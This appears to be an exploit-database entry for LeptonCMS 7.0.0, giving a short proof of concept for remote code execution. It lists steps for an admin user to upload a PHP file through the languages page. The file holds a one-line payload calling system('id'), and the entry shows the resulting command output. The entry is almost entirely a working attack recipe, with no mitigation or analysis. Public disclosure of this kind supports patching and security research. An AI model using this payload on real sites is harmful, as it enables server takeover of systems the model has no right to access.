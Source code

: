 ## Exploit Title: LeptonCMS : 7.0.0  Remote Code Execution
### Date: 2024-1-19
### Exploit Author: tmrswrr
### Category: Webapps
### Vendor Homepage: https://www.lepton-cms.com/
### Version : 7.0.0
### Tested on: https://www.softaculous.com/apps/cms/LEPTON

1 ) Login with admin cred   >  https://127.0.0.1/LEPTON/backend/login/index.php
2 ) Go to Languages place   > https://127.0.0.1/LEPTON/backend/languages/index.php
3 ) Upload upgrade.php file in languages place > <?php echo system('id'); ?>
4 ) After click install you will be see result

### Result :  uid=1000(lepton) gid=1000(lepton) groups=1000(lepton) uid=1000(lepton) gid=1000(lepton) groups=1000(lepton)
